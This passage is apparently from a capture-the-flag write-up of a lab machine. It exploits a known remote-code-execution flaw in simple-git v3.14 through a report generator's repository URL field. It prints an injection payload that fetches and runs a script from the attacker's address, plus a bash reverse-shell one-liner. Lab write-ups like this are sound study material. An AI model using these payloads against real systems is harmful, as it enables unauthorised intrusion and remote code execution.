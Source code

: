 ## Git Report Generator

![Writeup-5.png](/assets/images/Machines/FormulaX/Writeup-5.png)

The `simple-git` v3.14 is vulnerable to [CVE-2022-25912: RCE](https://security.snyk.io/vuln/SNYK-JS-SIMPLEGIT-3112221)

Verify via `curl`:
![Writeup-6.png](/assets/images/Machines/FormulaX/Writeup-6.png)

### Reverse Shell (www-data)

Piping to `sh` didn't start the shell, but bash did.

Repo url: `ext::sh -c curl% 10.10.16.75/rev|bash`
Rev: `/bin/bash -i >& /dev/tcp/10.10.16.75/4444 0>&1`
